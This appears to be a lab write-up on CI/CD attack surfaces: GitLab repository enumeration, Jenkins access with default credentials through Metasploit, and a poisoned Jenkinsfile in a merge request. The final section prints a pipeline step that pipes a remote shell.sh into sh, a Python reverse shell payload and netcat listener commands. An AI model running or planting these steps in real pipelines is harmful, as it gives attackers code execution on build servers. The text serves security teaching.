> /DevSecOps/CI-CD&BuildSecurity

# CI-CD & Build Security

### When The Build Pipeline Becomes The Attack Surface

CI/CD gives developers automated builds, testing, and deployments, but that automation also creates another attack surface. A compromised repository, runner, build server, or pipeline variable can potentially turn a code change into code execution.

In this article, we'll work through several practical weaknesses in a GitLab and Jenkins environment, starting with the build pipeline and ending with production secrets.

> Note: All the secrets/IPs revealed in this article were created and used in this sandbox only and are no longer valid. 

> Always secure your secrets!!!

# Building The Pipeline

The first step is getting a working pipeline so we can see what we're actually protecting. GitLab uses `.gitlab-ci.yml` to define jobs and stages, while **GitLab Runners** execute those jobs.

A typical pipeline looks like:

```text
CI/CD Pipeline
│
├── Build
│   └── Compile / Package
│
├── Test
│   ├── Test Job 1
│   └── Test Job 2
│
└── Deploy
    └── Production
```

For the exercise, we fork the `BasicBuild` project into our own private namespace. The repository already contains the pipeline configuration.



The `build` job simply executes commands on the runner:

```yaml
build-job:
  stage: build
  script:
    - echo "Hello, $GITLAB_USER_LOGIN!"
```

The test jobs execute after the build, and the deployment job runs after the tests succeed.

## Registering A GitLab Runner

GitLab needs a **runner** to execute the jobs defined in `.gitlab-ci.yml`. We register our attack machine as a runner and select the `shell` executor.

Gitlab gives the instruction set before registering the runner



Let's run the commands one by one.




Now, register the runner


Runner is successfully registered and appearing on the gitlab runner settings.


The important part of the registration process is that the runner becomes an execution environment controlled by GitLab.

```text
GitLab
   │
   └── Pipeline
          │
          └── GitLab Runner
                 │
                 ├── Build
                 ├── Test
                 └── Deploy
```

After registering the runner, we configure it to accept untagged jobs. We can then trigger the pipeline by making a small change to `README.md` and committing it.



As we can see, pipeline is successfully running and doing its job.


Once the pipeline starts, GitLab shows each job and its output under **Build → Pipelines**. 


After the deployment job completes, the application becomes available on the deployed endpoint.





The important security observation is, **a CI/CD runner is an automated code-execution environment**.

## Finding The Weak Build Source

Before attacking the build itself, we need to control what enters it.

GitLab repositories can suffer from two major problems: **unauthorised modification** and **unauthorised disclosure**. A particularly dangerous configuration is allowing anyone on an internal GitLab instance to create an account and access repositories that were mistakenly made visible to all authenticated users.

To demonstrate this, the provided enumeration script uses the GitLab API to list projects and download accessible repositories.

```text
GitLab Account
      │
      ↓
GitLab API
      │
      ↓
Enumerate Projects
      │
      ↓
Download Accessible Repositories
      │
      ↓
Search Source Code
      │
      └── Sensitive Information
```

The script we are going to use is `enumerator.py`.

```python

import gitlab
import uuid

# Create a Gitlab connection
gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token='[REDACTED]')
gl.auth()

# Get all Gitlab projects
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass

      
```

The script requires a GitLab API token rather than normal account credentials. After generating an appropriate token, it can enumerate the available projects.

**Generating Personal Access Token**




**Script downloading remote repos**


**Capturing hidden API flag in repos**



The practical lesson is that **internal does not automatically mean trusted**. If any authenticated user can register and repositories are incorrectly exposed, an attacker who compromises one employee account may gain access to source code that was never intended for them.

## Securing The Build Source

The fix starts with granular access control.

GitLab supports different permission levels and group-based access control, allowing organisations to restrict who can view, modify, and manage repositories.

There are also three particularly useful controls:

| Control               | Purpose                                               |
| --------------------- | ----------------------------------------------------- |
| `.gitignore`          | Prevent sensitive files from entering version control |
| Environment variables | Keep secrets outside source code                      |
| Protected branches    | Prevent direct modification of critical branches      |

For sensitive production branches, changes should go through merge requests and appropriate review rather than allowing arbitrary direct pushes.


# Breaking The Build Server

Even after securing the pipeline, the **build server itself** remains a high-value target. Compromising it can provide direct control over builds, agents, and potentially the entire CI/CD process.

The Jenkins server is exposed on port `8080`, so we start by testing its authentication. The default credentials `jenkins:jenkins` are accepted, immediately giving us access.



```text
Jenkins
  │
  └── jenkins:jenkins
          │
          └── Access Granted
```

With access to Jenkins, we can use Metasploit's `jenkins_script_console` module to execute commands through the Jenkins Script Console. Jenkins also provides a **Groovy Script Console**, which can be abused manually for command execution on the underlying system.



**Setting payload**


**Inside jenkins server**


Now we have access to all the files inside the server.


```text
Jenkins Access
      │
      ↓
Script Console
      │
      ↓
Groovy / Metasploit
      │
      ↓
Command Execution
      │
      ↓
Build Server Compromise
```

The fix is to remove default credentials and restrict access to the build infrastructure. Build agents should communicate only with their build server and preferably reside on a private network behind firewalls. 

Remote administration should use a **VPN**, while build agents can use **token-based authentication** and SSH-based agents should use secure SSH keys. Regular patching, monitoring, security audits, and hardened configurations further reduce the attack surface.


## The Toxic Merge Build

Now we reach one of the most interesting weaknesses in the room.

Ash's repository uses **on-merge builds**. Whenever a merge request is opened, Jenkins automatically builds the submitted code.



Normally, this sounds useful. The problem appears when an untrusted developer can modify both the application and the `Jenkinsfile`.

The Jenkinsfile is effectively an instruction set for the build server.

```text
Attacker
   │
   ├── Modify Source Code
   │
   └── Modify Jenkinsfile
          │
          ↓
      Merge Request
          │
          ↓
       Jenkins
          │
          ↓
    Execute Jenkinsfile
          │
          ↓
    Code Execution
```

The practical attack is to fork the repository and modify the `Jenkinsfile` so that Jenkins executes attacker-controlled commands.

**Editing file to trigger a commit**


For example, the pipeline can be changed to retrieve and execute a shell hosted by the attacker:

```groovy
pipeline {
    agent any

    stages {
        stage('build') {
            steps {
                sh '''
                    curl http://[REDACTED]:8081/shell.sh | sh
                '''
            }
        }
    }
}
```

whereas, `shell.sh` is:
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("[REDACTED]",8082)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
     
```

The attacker hosts the payload and waits for Jenkins to execute the modified pipeline.

```bash
python3 -m http.server 8081
nc -lvp 8082
```

**Creating a new merge request**


**Luckily (as an attacker), you can approve your own merge request**
